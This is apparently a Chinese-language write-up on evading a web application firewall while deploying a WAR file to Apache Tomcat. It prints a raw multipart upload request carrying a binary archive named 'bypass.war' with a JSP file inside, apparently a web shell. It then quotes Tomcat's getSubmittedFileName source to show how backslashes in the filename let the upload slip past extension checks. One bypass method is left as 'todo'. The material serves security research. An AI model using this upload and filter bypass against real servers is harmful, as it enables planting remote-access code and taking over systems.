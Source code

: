 ```
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=90151C6DAF8D510DF8E71D036D47F1F4
Connection: close

------WebKitFormBoundaryCYU5Y59MNL5BAit4
Content-Disposition: form-data; name="deployWar"; filename="bypass.war"
Content-Type: application/x-webarchive

PK��{U������������	��META-INF/���PK�����������PK��{U���������������META-INF/MANIFEST.MFMLK-.
K-*ϳR03r.JM,IMu	X)h%&*8%�krr�PKM7D���E���PK��]T���������������bp1.jspmTOkAStdllHWlBZ1KavwMvם4TU<x{[LƓ_D1d{/ۙkr$:Q+Ǹ֙(647L/F*W̼1q!73qk3)2D2ǽe<!d{E^GMvG+.\%q4yC\K5<hD9@8w.WkKlX2|*A9/|Tmp%5jpooNvSNǷO_><ڱ*`uơ1wy7|A\Jf۬pl$]#x5I2Ac)oK"3uQ+%ɄH2^#g@(\jnƇR9 ]bB3
L#g/WʗB-ã';oOQ"P+1'MeԲS
UxRMRMhJ2K2
+۲,Zr6ΗI;a0D9X3v&&'d׌h_;	c+b5	k	fBñv$5T(w?<lÏo`ӡ%td%\sIc6zuh' 	klK)fGtBXLfE
`+"`m2΢[6@spPKZV#o��d��PK���{U�����������	����������������META-INF/��PK���{UM7D���E����������������=���META-INF/MANIFEST.MFPK���]TZV#o��d������������������bp1.jspPK�������������
------WebKitFormBoundaryCYU5Y59MNL5BAit4--
```

WAF可能会检测以下几点

>filename

可能会对filename进行后缀名检查,绕过方法主要由两点:构造畸形的`Content-Disposition`或者构造特殊的filename

- 构造畸形的`Content-Disposition`

todo

- 构造特殊的filename

利用tomcat对filename中存在的`\`的特殊处理进行绕过

`org.apache.catalina.core.ApplicationPart#getSubmittedFileName`

```java
    public String getSubmittedFileName() {
        String fileName = null;
        String cd = this.getHeader("Content-Disposition");
        if (cd != null) {
            String cdl = cd.toLowerCase(Locale.ENGLISH);
            if (cdl.startsWith("form-data") || cdl.startsWith("attachment")) {
                ParameterParser paramParser = new ParameterParser();
                paramParser.setLowerCaseNames(true);
                Map<String, String> params = paramParser.parse(cd, ';');
                if (params.containsKey("filename")) {
                    fileName = (String)params.get("filename");
                    if (fileName != null) {
                        if (fileName.indexOf(92) > -1) {
                            fileName = HttpParser.unquote(fileName.trim());
                        } else {
                            fileName = fileName.trim();
                        }
                    } else {
                        fileName = "";
                    }
                }
            }
        }

        return fileName;
    }
```